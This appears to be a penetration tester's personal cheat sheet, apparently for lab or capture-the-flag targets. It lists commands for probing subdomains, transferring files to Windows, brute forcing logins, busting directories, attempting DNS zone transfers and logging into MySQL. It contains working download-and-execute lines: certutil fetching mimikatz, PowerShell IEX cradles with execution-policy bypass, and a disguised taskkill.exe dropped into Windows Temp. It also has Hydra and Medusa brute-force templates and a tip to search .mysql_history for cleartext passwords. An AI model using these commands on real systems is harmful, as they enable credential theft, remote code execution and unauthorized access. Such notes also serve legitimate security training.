 ## Check for Alive URLs
cat subdomains.txt | httprobe -s -p https:443 | sed 's/https\?:\/\///' | tr -d ':443' *Look for admin/stag/dev. They could be good*

## Send file to Windows (URLCACHE Method)
certutil -urlcache -f http://10.17.4.195/mimikatz-32.exe mimikatz.exe

## Send file to Windows (Powershell Method)
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.14.12.230/CLSID.ps1')"
powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://10.14.12.230/CLSID.ps1')|iex"
powershell -c (New-Object Net.WebClient).DownloadFile("http://10.10.14.2:80/taskkill.exe","C:\Windows\Temp\taskkill.exe")
Invoke-WebRequest "http://10.14.12.230/CLSID.ps1" -OutFile "CLSID.ps1"

## Medusa (Bruteforce):
medusa -h "IP" -u "username" -P "PASSWORD WORDLIST" -M "MODULE (EG; SMBNT)"

## Hydra (Bruteforce):
hydra -f -l "USERNAME" -P "PASSWORD WORDLIST" "IP" (eg; smb)

## DIRB:
dirb "URL"
dirb "URL" -X "EXTENTIONS"
dirb "URL" "WORDLIST"

## GOBUSTER:
gobuster dir -u "URL" -w "WORDLIST" -x "EXTENTIONS"
gobuster dir -u http://10.10.82.152 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -x php,html,txt,bak --no-error -o dir.gobuster

## DIRSEARCH:
dirsearch -u "URL" -w "WORDLIST" -e "EXTENTIONS"

## Finding Domain TXT Records
dig axfr @"IP" "DOMAIN"

## NodeJS
- Prototype Pollution
- Deserialization

## MYSQL:
mysql -u "USERNAME" -D "DATABASE NAME" -p
commands = http://g2pc1.bu.edu/~qzpeng/manual/MySQL%20Commands.htm
*Try to look for .mysql_history and see if it has clear text passwords in it*
mysql -h "IP ADDRESS" -u "USERNAME" -D "DATABASE NAME" -p *REMOTE LOGIN*

